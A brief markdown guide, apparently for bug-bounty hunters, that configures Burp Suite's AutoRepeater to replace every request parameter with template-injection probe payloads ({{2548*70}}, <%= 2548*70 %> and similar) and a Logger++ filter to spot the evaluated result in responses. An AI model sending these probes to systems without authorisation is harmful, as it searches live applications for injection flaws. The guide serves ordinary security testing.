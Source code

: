 ## Server Side Template Injection Automation in Burp Suite
#### <em>Extentions: AutoRepeater and Logger++ </em>


## AutoRepeater Replacement Configuration 
1) Replace any Parameters Value with others CSTI Payload:

    ```
    Type: Request Param Value
    Match: .*
    Replace: [2548*70]
    Which: Replace All
    Regex Match: Enabled
    ```
   ```
    Type: Request Param Value
    Match: .*
    Replace: {{2548*70}}
    Which: Replace All
    Regex Match: Enabled
    ```

   ```
    Type: Request Param Value
    Match: .*
    Replace: ${{2548*70}}
    Which: Replace All
    Regex Match: Enabled
    ```
  
    ```
    Type: Request Param Value
    Match: .*
    Replace:  <%= 2548*70 %>
    Which: Replace All
    Regex Match: Enabled
    ```

    And Your Custom Payloads
1) Logger++ Filter For AutoRepeater Response of SSTI Payload

    ``` Response.Body CONTAINS "178360" ```
    And Repsonse of Your Custom others Patloads Filters
<h4><em>Happy Hunting ;) </em><h4>
